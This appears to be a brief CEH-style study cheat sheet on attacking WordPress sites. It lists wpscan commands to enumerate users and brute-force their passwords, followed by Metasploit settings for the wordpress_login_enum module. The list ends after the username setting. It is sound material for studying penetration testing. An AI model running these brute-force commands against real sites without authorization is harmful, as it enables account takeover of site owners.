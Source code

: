 # [<<< Back to index](../CEH_index.md)
## Web App Attack

### #wordpress

`wpscan`

wpscan –url IP `basic scan`
wpscan –url IP -e u `enumerating website users`
wpscan –url IP -U USER_NAME -P PATH_TO_WORDLIST `brute-forcing password for the identified user`

`msfconsole`

serach and use wordpress_login_enum
set PASS_FILE passlist.txt
set RHOSTS IP
set RPORT PORT
set TARGETURI http://IP:PORT/
set USERNAME user


